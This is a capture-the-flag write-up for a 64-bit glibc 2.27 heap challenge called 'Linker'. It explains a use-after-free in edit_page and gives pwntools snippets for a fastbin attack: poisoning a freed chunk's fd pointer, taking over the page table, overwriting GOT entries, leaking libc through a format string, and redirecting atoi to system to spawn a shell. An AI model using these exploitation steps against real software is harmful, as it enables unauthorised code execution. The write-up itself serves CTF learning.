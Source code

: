 # Linker

This challenge was heap based pwn challenge with the given LIBC being 2.27.

### Overview

```r
❯ file linker
linker: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d3da95d44b3a6fd21e32e74f782f1acb859e294d, not stripped
❯ checksec linker
[*] '/home/d4mianwayne/Pwning/CTFs/3kCTF/linker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

### Vulnerability

Use After Free in `edit_page` function, allowing us to tamper the metadata of a `free`'d chunk.

### Exploitation

The exploitation phase is about fastbin attack, we overwrite the chunk's `fd` pointer to point it before the `page` table which stores the pointer to the allocated hence, fully taking over the `page` array and overwrite the data as needed.

First, we fill the tcache bins since this challenge is on the GLIBC 2.27:-

```py
for i in range(7):
    add(0x60)
    empty(0)
```

Now, we allocate 3 chunks, named chunk A & chunk B and chunk C:-

```py
add(0x60) # chunk 0
add(0x60) # chunk 1
add(0x71) # chunk 2
empty(0)  # chunk 0 -> free'd -> 0x70
```

Now, the fastbin array looks like:-

```py
fastbins_array = [chunk[0]]
```
Now, we will overwrite the `fd` of the `chunk[0]` to point it before the `page` table:-

```py
edit(0,p64(0x6020C0)) # chunk[0]->fd = 0x6020c0 
add(0x60) # chunk 0
add(0x60) # chunk 3
```

Now, that being done, we will overwrite the pointers stored in the `page` table:-

```py
payload = p64(0xff)*2
payload += p64(0x0)*4
payload += p64(e.got['memcpy'])
payload += p64(e.got['atoi'])
'''
ptr[0] = memcpy@got
ptr[1] = atoi@got
'''
edit(3,payload)
```

Now, the `ptr[0]` is `memcpy@got` and the `ptr[1]` is `atoi@got`, such that when we call `edit` again and will be able to overwrite the GOT as needed. Firstly, we will overwrite the `memcpy@got` with the `prinf@plt` function to trigger the FSB to leak stack address, eventually a LIBC address to calculate the base address:-

> As for re-login, we stored the data the string `%15$p` on the very first prompt asking for the name itself and then when the `memcpy@got` is made in re-login, it will trigger the FSB and the 

```py
edit(0,p64(e.plt['printf'])) # ptr[0] -> memcpy@got -> printf@plt -> FSB
re() # relogin to trigger memcpy
p.sendafter('name:\n','\n') 
libc.address = int(p.recvuntil('W')[:-1],16) - libc.symbols['__libc_start_main'] - 231 # FSB -> %15$p -> __libc_start_main + 231
log.info(f"libc.address:  {hex(libc.address)}")
```

Now, having the LIBC address and the `ptr[1]` pointing to the `atoi@got`, we can just overwrite it with the system address and then on the next call of the `got` just pass the string `sh`, we will be prompted with the shell:-

```py
edit(1,p64(libc.symbols['system'])) # ptr[1] -> atoi@got -> system@libc
p.sendline('sh\x00')  # aoi("sh") -> system("sh")
p.interactive()
```

With that, we will have the shell :D